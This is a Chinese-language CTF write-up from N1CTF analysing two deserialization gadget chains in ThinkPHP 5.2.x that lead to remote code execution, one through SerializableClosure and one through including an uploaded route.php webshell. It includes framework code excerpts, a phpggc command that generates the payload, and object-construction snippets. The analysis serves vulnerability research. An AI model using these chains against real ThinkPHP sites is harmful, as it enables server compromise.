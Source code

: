 ```yaml
---
title: thinkphp v5.2.x 反序列化利用链挖掘
tags: 
  - 漏洞分析
categories: codereview
date: 2019-09-10 12:59:00
---
```

## 0x00 前言

上周参与了N1CTF，里面有一道关于thinkphp5的反序列化漏洞的利用。记录一下关于该反序列化的利用链分析。
<!-- more -->

后文主要包括两条链的利用分析（一条是我找的，也是题目的预期解，另一条是wonderkun师傅找的非预期解）

## 0x01 环境准备

这里就不直接用题目的环境了，采用composer直接安装5.2.*-dev版本

```bash
composer create-project topthink/think=5.2.x-dev v5.2
```

## 0x02 利用链分析

### 背景回顾

tp5在我印象里反序列化的利用链存在一个Windows类的任意文件删除，但是在[这篇文章]([https://blog.riskivy.com/%E6%8C%96%E6%8E%98%E6%9A%97%E8%97%8Fthinkphp%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%88%A9%E7%94%A8%E9%93%BE/](https://blog.riskivy.com/挖掘暗藏thinkphp中的反序列利用链/))的启示下，也算是找到了一条新的路（关于`__toString`的触发方式，除了字符串拼接的方式，还可以利用PHP自带函数参数的强制转换）。

这篇文章的利用链最后用到了5.1.37版本`think/Request.php`的 `__call`函数，该函数的调用函数名可控，所以可以导致任意调用其他的类函数。而在5.2.x版本不存在这样的一个`__call`函数，这意味着我们需要重新找一个最终达成命令执行的函数调用（`__call`函数前的利用链仍然可用）。

那么接下来，我们来看看5.2.x新的利用链吧：）

### think/model/concern/Attribute.php getValue可函数动态调用函数（题目的预期解）

由于5.1.37`__call`函数前的利用链仍然存在于5.2.x版本，这里就不再详述了。

先来看一下Conversion类的toArray函数

```php
public function toArray(): array
{
    // ...
    // 合并关联数据
    $data = array_merge($this->data, $this->relation);

    foreach ($data as $key => $val) {
        if ($val instanceof Model || $val instanceof ModelCollection) {
            // ...
        } elseif (isset($this->visible[$key])) {
            $item[$key] = $this->getAttr($key);// relation和visible存在同一个key就行
        // ...
    }

    // ...
```

去掉了无关的代码，这里`$this->visible`、`$this->relation`均可控，可伪造数据进入`getAttr`函数

```php
public function getAttr(string $name)
{
    // ...
    return $this->getValue($name, $value, $relation);
}

protected function getValue(string $name, $value, bool $relation = false)
{
  // 检测属性获取器
  $fieldName = $this->getRealFieldName($name);// 直接返回$name的值
	// ...
  if (isset($this->withAttr[$fieldName])) {
    // ...
    $closure = $this->withAttr[$fieldName]; // withAttr内容可控
    $value   = $closure($value, $this->data); // 动态调用函数
	  // ...
```

直接关注`getValue`函数，该函数可动态调用函数，并且调用函数、函数参数均可控。所以接下来有两种方法，第一种是找一个符合条件的php函数，另一种是利用tp自带的SerializableClosure调用，来看一下第二种。

[\Opis\Closure](https://github.com/opis/closure)可用于序列化匿名函数，使得匿名函数同样可以进行序列化操作。这意味着我们可以序列化一个匿名函数，然后交由上述的`$closure($value, $this->data)`调用执行。

```php
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
```

以上述代码为例，将调用phpinfo函数。

到此为止，我们分析完了整一个调用流程，回顾一下

1. `vendor/topthink/framework/src/think/process/pipes/Windows.php`
	 `__destruct` ->` removeFiles` ->` file_exists` 强制转化字符串`filename`，这里的`filename`可控
	可触发`__toString`函数，下一步找可利用的`__toString`
2. `vendor/topthink/framework/src/think/model/concern/Conversion.php`
	`__toString` -> `toJson` -> `toArray`创造符合条件的`relation`和`visible`-> `getAttr`
	下一步调用`vendor/topthink/framework/src/think/model/concern/Attribute.php`的`getValue`函数
3. `vendor/topthink/framework/src/think/model/concern/Attribute.php`
  `getValue` -> `$closure`动态调用函数，且该内容可控
  下一步利用有两种，一种找符合的php函数，另一种利用tp自带的`SerializableClosure`调用
4. `vendor/opis/closure/src/SerializableClosure.php`
  构造可利用的匿名函数

我把exp集成到了[phpggc](https://github.com/wh1t3p1g/phpggc)上，使用如下命令即可生成

```bash
./phpggc -u ThinkPHP/RCE1 'phpinfo();'
```

这里由于用到了SerializableClosure，需要使用编码器编码，不可直接输出拷贝利用。

### think/Db.php __call函数可实例化任意类（题目的非预期解）

前面说到5.1.37版本的利用链的`__call`函数，在5.2.x版本没办法用了。但是从`__destruct`到`__call`的链路是通的，我们只需要重新找一个可用的`__call`函数即可。

来看一下`vendor/topthink/framework/src/think/Db.php`的`__call`函数

```php
public function __call($method, $args)
{
    $class = $this->config['query'];

    $query = new $class($this->connection);

    return call_user_func_array([$query, $method], $args);
}
```

`$this->config`和`$this->connection`均可控，这意味着我们可以实例化任意符合条件的类，这里找了`think\Url`

```php
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;

    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

该构造器引入了RuntimePath下的route.php文件，因为这道题是允许上传文件的，所以只要在可上传的目录下上传一个route.php的webshell即可。至于RuntimePath，`$app`为可控变量，直接修改`$runtimePath`的内容即可。

我们直接构造App对象为

```php
class App{

    protected $runtimePath;
    public function __construct(string $rootPath = ''){
        $this->rootPath = $rootPath;
        $this->runtimePath = "/tmp/";
        $this->route = new \think\route\RuleName();
    }
}
```

这个构造思路太溜了，膜一波：）

整理一下过程

1. `vendor/topthink/framework/src/think/process/pipes/Windows.php`
   `__destruct` ->` removeFiles` ->` file_exists` 强制转化字符串`filename`，这里的`filename`可控
   可触发`__toString`函数，下一步找可利用的`__toString`
2. `vendor/topthink/framework/src/think/model/concern/Conversion.php`
   `__toString` -> `toJson` -> `toArray `->`appendAttrToArray`->`$relation`调用不存在的函数，触发`__call`
3. `vendor/topthink/framework/src/think/Db.php`
   `__call` -> `new $class($this->connection)` 调用任意类的`__construct`函数
4. `vendor/topthink/framework/src/think/Url.php`
   构造App类，达到`include`任意文件的效果
